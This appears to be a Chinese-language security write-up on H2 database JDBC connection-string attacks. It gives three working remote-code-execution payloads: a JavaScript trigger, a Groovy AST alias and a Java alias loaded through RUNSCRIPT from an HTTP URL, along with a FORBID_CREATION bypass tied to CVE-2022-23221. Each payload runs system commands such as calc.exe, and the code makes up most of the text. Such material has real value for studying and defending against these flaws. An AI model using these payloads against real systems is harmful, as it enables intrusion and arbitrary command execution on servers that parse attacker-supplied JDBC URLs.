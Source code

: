 1. CREATE TRIGGER + javascript

```sql
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    java.lang.Runtime.getRuntime().exec("calc.exe")
$$;AUTHZPWD=\
```

在H2内存数据库中创建一个触发器 TRIG_JS，该触发器在向 INFORMATION_SCHEMA.TABLES 表插入数据后执行。触发器的主体是一个JavaScript脚本，而且在编译源代码时，同时还会eval源代码。

上述payload原理来自[FORBID_CREATION 绕过（CVE-2022-23221）](https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html#forbid_creation-cve-2022-23221)

2. CREATE ALIAS + Groovy AST

```sql
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;init=CREATE ALIAS shell2 AS
$$@groovy.transform.ASTTest(value={
assert java.lang.Runtime.getRuntime().exec("cmd.exe /c calc.exe")
})
def x$$;AUTHZPWD=\
```

目标机器有groovy依赖，能打AST注解

如何触发groovy可见：https://su18.org/post/jdbc-connection-url-attack/

简单说来就是通过如下前缀判断是否为groovy代码

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/1630916970678.png)



到这里我们可以思考一下，前两种利用方式。CREATE TRIGGER + javascript是创建触发器时编译并执行了javascript代码，CREATE ALIAS + Groovy AST的 `value={}` 中的代码会在编译阶段运行，用于测试 AST 或执行验证。所以实际上都是用一条init完成了执行代码。这两种方式适用于目标不出网的情况下执行命令，不过一般不能回显

3. CREATE ALIAS + Java

这个就是上面提到的RUNSCRIPT的方式，可以执行多行代码。我们给他加上一个bypass 无数据库场景的payload

```sql
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql';AUTHZPWD=\
```

```sql
DROP ALIAS IF EXISTS shell;
CREATE ALIAS shell AS $$void shell(String s) throws Exception {
    java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT shell('cmd /c calc');
```



![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250505142833640.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250505153855105.png)
